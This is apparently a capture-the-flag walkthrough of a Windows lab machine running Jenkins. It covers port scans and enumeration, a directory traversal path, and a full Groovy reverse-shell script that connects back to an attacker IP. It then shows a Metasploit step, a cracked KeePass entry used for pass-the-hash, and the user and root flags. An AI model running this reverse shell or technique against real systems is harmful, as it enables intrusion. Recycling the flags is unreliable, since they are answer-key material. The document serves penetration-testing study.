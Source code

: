 # Recon
- Windows
- Powershell
- Web

# Scans
## Nmap Port scan
```
PORT      STATE SERVICE      REASON          VERSION
80/tcp    open  http         syn-ack ttl 127 Microsoft IIS httpd 10.0
|_http-title: Ask Jeeves
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
135/tcp   open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
445/tcp   open  microsoft-ds syn-ack ttl 127 Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         syn-ack ttl 127 Jetty 9.4.z-SNAPSHOT
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2008 (89%)
```

# Enumeration
## 80 - IIS 10.0
### Dirbuster
```
200       17l       40w      503c http://10.10.10.63/Index.html
200        1l        4w       50c http://10.10.10.63/error.html
200       17l       40w      503c http://10.10.10.63/index.html
```
### Comments
```
Comment: 
|         
|         
|         
|                 box-shadow: 0 0 2px rgba(0,0,0,.8) inset;*/
|     
|     Path: http://10.10.10.63:80/style.css
|     Line number: 12
|     Comment: 
|_        /*-------------------------------------*/

```
![[bdebdd190ba5429cb56fb0c226f0fcab.png]]


## 135 - msRPC
There are some remote procedures available to call.

## 50000 - Jetty 9.4 z
### Dirbuster
```
302        0l        0w        0c http://10.10.10.63:50000/askjeeves
```
### Whatweb
```
Summary   : PoweredBy[Jetty://], HTTPServer[Jetty(9.4.z-SNAPSHOT)], Jetty[9.4.z-SNAPSHOT]
```
It's **Jenkins**!
![[777336350d994a32b4a34a4060cecbf7.png]]
**Found some OS info**
![[ad3d4b1ed1f44875956b74b1dbdc7e6c.png]]
![[6256831207ec43fa8db3ef1d144305a1.png]]

# Weaponization
## Jetty 9.4
### Possible directory traversal
![[d180e3f8f6f54d218d9a9baa4fda1fc3.png]]
`http://10.10.10.63:80/askjeeves/.\..\..\..\..\..\..\..\Documents and Settings\All Users\Application Data\VMware\VMware VirtualCenter\SSL\rui.key`
## MS SQL Server 2005
```
MS SQL Server 2000/2005 - SQLNS.SQLNamespace COM Object Refresh() Unhandled Pointer 
|	windows/remote/38005.asp
```

## Jenkins 2.87
Script Editor


# Exploitation
Start a **netcat listener**
![[b1750106a13f4d05a86538c794116aac.png]]
Used **Jenkins Script Console** to get RCE using this **malicious Groovy Script**
```
String host="10.10.16.4";
int port=6969;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

## I am kohsuke now
![[b257d9b4e73d4a9a85932b3f0f007a5f.png]]

## User Flag `e3232272596fb47950d59c4cf1e7066a`
![[7496fc58605c4b11b0b5d3a18af61a65.png]]

# Enumeration as User
![[58da6b71679949878a4d82b5989027e8.png]]
# PrivEsc
## Switch to a meterpreter
### Use `multi/script/web_delivery` to get a meterpreter.
![[ce41a2818fb24d73a6e60ecb56e6bb08.png]]
Got meterpreter
![[4e4e1c69e1ba4608a24b42ac1ffbff20.png]]

There is a **KeyPass** (how ironic) database in the users documents folder.

![[2166d9a925da44f383e640828a24b619.png]]

This one looks pretty interesting
![[6375aa4d9c704604b36a2271dabb26c8.png]]
`administrator`
`S1TjAtJHKsugh9oC4VZl`
Turns out this one is an NTLM hash, which can be passed with **pth-winexe**
![[81fa6d1c1f2e46abaac3a2152b264e4b.png]]

## Got Administrator by passing the hash
![[f12b3d657e5c4b538f727182da628447.png]]
Not done yet...
![[60318885e10a49c38f3e69fd0de58912.png]]
`dir /r` to see **more**
![[19fd34556ce9456d9fe8bbad3e6a9af7.png]]
**powershell** to dump the flag.
![[5f9196f490964b61a1273db1fe11dcda.png]]

root: `afbc5bd4b615a60648cec41c6ac92530`